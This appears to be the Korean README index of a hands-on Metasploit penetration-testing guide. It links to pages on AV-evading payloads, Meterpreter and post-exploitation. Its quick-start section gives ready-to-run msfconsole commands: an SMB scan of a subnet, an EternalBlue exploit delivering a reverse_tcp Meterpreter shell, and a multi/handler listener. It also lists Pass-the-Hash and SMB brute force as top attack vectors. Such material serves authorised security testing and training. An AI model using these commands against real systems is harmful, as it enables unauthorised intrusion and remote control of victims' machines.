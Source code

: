 ## 📚 가이드 구성

이 가이드는 실제 현업에서 사용하는 Metasploit 기법들만을 정리한 실무 중심 문서입니다. 이론보다는 바로 써먹을 수 있는 실용적인 내용에 집중했습니다.

### 📖 문서 목록

1. **[설치 가이드](installation.md)** - MSF 설치부터 설정까지
2. **[기본 사용법](basic_usage.md)** - msfconsole 기본 조작법
3. **[실무 사용법](real_world_usage.md)** - 현업에서 실제로 쓰는 기법들 ⭐
4. **[Meterpreter 가이드](meterpreter.md)** - 가장 강력한 페이로드 완전 활용법
5. **[페이로드 생성](payload_generation.md)** - AV 우회 및 맞춤형 페이로드 제작 ⭐
6. **[Post-Exploitation](post_exploitation.md)** - 시스템 장악 후 해야 할 모든 것 ⭐
7. **[공격 시나리오](attack_scenarios.md)** - 실제 침투 테스트 시나리오별 가이드 ⭐

## 🚀 빠른 시작

### 즉시 사용 가능한 실무 커맨드

```bash
# 1. 빠른 시작 (배너 없이)
msfconsole -q

# 2. 글로벌 설정 (한 번만 설정)
setg LHOST 10.10.14.50
setg RHOSTS 10.10.10.100

# 3. 가장 많이 쓰는 스캔
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run

# 4. EternalBlue 공격 (Windows 7/2008/2012)
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit

# 5. 멀티핸들러 (백그라운드 리스너)
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j -z
```

## 🎯 실무 핵심 기능

### 가장 효과적인 공격 벡터

1. **SMB 취약점** (Windows 환경 90% 성공률)

   - EternalBlue (ms17_010)
   - SMB 브루트포스
   - Pass-the-Hash
